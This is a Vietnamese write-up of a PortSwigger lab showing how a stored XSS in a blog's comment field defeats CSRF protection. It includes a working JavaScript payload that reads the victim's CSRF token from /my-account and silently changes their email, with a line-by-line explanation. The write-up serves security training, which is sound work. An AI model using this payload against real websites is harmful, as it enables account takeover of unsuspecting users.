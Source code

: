 # Write-up: Exploiting XSS to bypass CSRF defenses

### Tổng quan
Khai thác lỗ hổng Stored Cross-Site Scripting (XSS) trong chức năng comment của blog để vượt qua cơ chế bảo vệ CSRF, tự động thực hiện hành động thay đổi email của người dùng. Payload XSS sử dụng `XMLHttpRequest` để lấy CSRF token từ trang `/my-account` và gửi yêu cầu POST để đổi email, lợi dụng việc comment được hiển thị cho nạn nhân, dẫn đến thực thi mã độc và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng Stored XSS trong chức năng comment để vượt qua CSRF defenses, tự động đổi email của nạn nhân bằng cách lấy CSRF token và gửi yêu cầu POST, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một bài viết bất kỳ trên blog và gửi comment để kiểm tra khả năng XSS:
    - Comment: `<script>alert(1)</script>`
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- **Phản hồi**: Quay lại bài blog, thấy hộp thoại hiển thị 1, xác nhận lỗ hổng Stored XSS trong trường comment vì mã `<script>` được thực thi trực tiếp
    ![xss](./images/1_xss.png)

- Đăng nhập bằng tài khoản `wiener`:`peter`, truy cập `/my-account` và thử đổi `email` :
    - **Quan sát**: Yêu cầu POST yêu cầu csrf token, lấy từ trang `/my-account`. Điều này gợi ý cần khai thác XSS để tự động lấy token và gửi yêu cầu đổi email:
        ![token](./images/2_token.png)

2. **Khai thác (Exploitation)**
- Gửi comment mới với payload XSS:
    - Comment: 
        ```java
        <script>
        var req = new XMLHttpRequest();
        req.onload = handleResponse;
        req.open('get','/my-account',true);
        req.send();
        function handleResponse() {
            var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
            var changeReq = new XMLHttpRequest();
            changeReq.open('post', '/my-account/change-email', true);
            changeReq.send('csrf='+token+'&email=test@test.com')
        };
        </script>
        ```
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- Cơ chế chi tiết của payload:
    - `var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send();`: Gửi yêu cầu GET đến `/my-account` để lấy HTML chứa CSRF `token`.
    - `var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];`: Trích xuất CSRF token từ HTML bằng `regex`.
    - `var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com')`: Gửi yêu cầu POST đến `/my-account/change-email` với token và email mới (`test@test.com`), thay đổi email của nạn nhân.

- **Kết quả**: 
    - Khi nạn nhân (hoặc hệ thống lab giả lập nạn nhân) xem bài blog, comment chứa `<script>` thực thi, tự động lấy CSRF token và gửi yêu cầu đổi email.
    - Đăng nhập lại tài khoản `wiener`:`peter`, truy cập `/my-account`, thấy email đã đổi thành `test@test.com`:
        ![solved](./images/2_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Stored XSS để vượt qua cơ chế bảo vệ CSRF, sử dụng `XMLHttpRequest` để lấy CSRF token và thực hiện hành động thay đổi email của nạn nhân.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trong các trường như comment và triển khai CSRF defenses mạnh mẽ (như token không thể truy cập qua JavaScript) để ngăn chặn các cuộc tấn công XSS và CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Stored XSS để vượt qua CSRF defenses, nhấn mạnh tầm quan trọng của việc làm sạch input người dùng và triển khai CSRF token an toàn. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*